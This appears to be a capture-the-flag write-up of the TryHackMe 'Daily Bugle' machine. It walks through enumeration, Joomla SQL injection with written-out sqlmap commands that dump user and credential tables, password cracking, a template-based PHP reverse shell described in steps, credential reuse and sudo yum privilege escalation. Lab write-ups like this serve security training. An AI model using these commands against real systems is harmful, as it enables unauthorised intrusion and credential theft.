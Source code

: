 ```yaml
---
layout: post
title: THM Daily Bugle
---
```


This is a write-up for the machine [Daily Bugle](https://tryhackme.com/room/dailybugle) from [tryhackme](https://tryhackme.com).

<!-- MarkdownTOC -->

- [Initial Enumeration](#initial-enumeration)
- [Exploiting SQLI to access Joomla](#exploiting-sqli-to-access-joomla)
- [Gaining a Shell](#gaining-a-shell)
- [Local Enumeration](#local-enumeration)
- [Privilege Escalation](#privilege-escalation)

<!-- /MarkdownTOC -->

## Initial Enumeration

`Nmap` scan to check for open ports and services.

![nmap](../images/dailybugle/dai1.png)

The host seems to be running `CentOS` as OS.

- Port 22 OpenSSH 7.4
- Port 80 Apache 2.4.6
- Port 3306 Maria DB

The `nmap` scan already have found 15 disallowed entries in a `robots.txt` file. Running `gobuster` against the server yields this results.

![gobuster](../images/dailybugle/dai2.png)

The web server shows this page.

![web](../images/dailybugle/dai3.png)

In the `/administrator` folder we have the `Joomla` login page. A vulnerability scan using `nmap` tells us that this version of `Joomla` is vulnerable to `SQLI`. We follow the information from [this exploit](https://www.exploit-db.com/exploits/42033).

## Exploiting SQLI to access Joomla

We use this commands to dump the tables, the `user` table columns and the `user` and `password` columns. 

````shell
sqlmap -u "http://10.10.173.19/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --batch --tables

sqlmap -u "http://10.10.173.19/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --batch --columns -D mysql -T user

sqlmap -u "http://10.10.173.19/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] --batch --dump -D mysql -T user -C User,Password
````

![user](../images/dailybugle/dai4.png)

But the result is not useful, we are looking for a `Jonah` user. Finally we dump the table `#__users` and then we find the user credentials we were looking for.

````shell
sqlmap -u "http://10.10.173.19/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomla -T "#__users" --dump -C name,username,email,password
````

![table](../images/dailybugle/dai5.png)

With `john` we can crack this password.

![john](../images/dailybugle/dai6.png)

And with this credentials we can access the `joomla` control panel.

## Gaining a Shell

In [this](https://www.hackingarticles.in/joomla-reverse-shell/) article we can find the way to use Joomla to gain a shell into the system.

The steps we have to follow are

1. Go to extensions/templates.
2. Choose a template.
3. Go to index.php.
4. Edit the template adding a php reverse shell code.
5. Start a listener to the port selected.
6. Navigate to index.php.

Following those steps we gain a shell as the user `apache`.

![shell](../images/dailybugle/dai7.png)

## Local Enumeration

The only user on the machine is `jjameson` and we can't access his files. Enumerating the `/var/www` directory we find some credentials in the `configuration.php` file.

![credentials](../images/dailybugle/dai8.png)

If we try to `ssh` to the machine as `jjameson` with that password we have access and can now read the user flag.

![ssh](../images/dailybugle/dai9.png)

## Privilege Escalation

Running `sudo -l` as `jjameson` yields this result.

![sudo -l](../images/dailybugle/dai10.png)

According to [this entry](https://gtfobins.github.io/gtfobins/yum/#sudo) on `gtfobins` this can be used to escalate privileges. 

![root](../images/dailybugle/dai11.png)


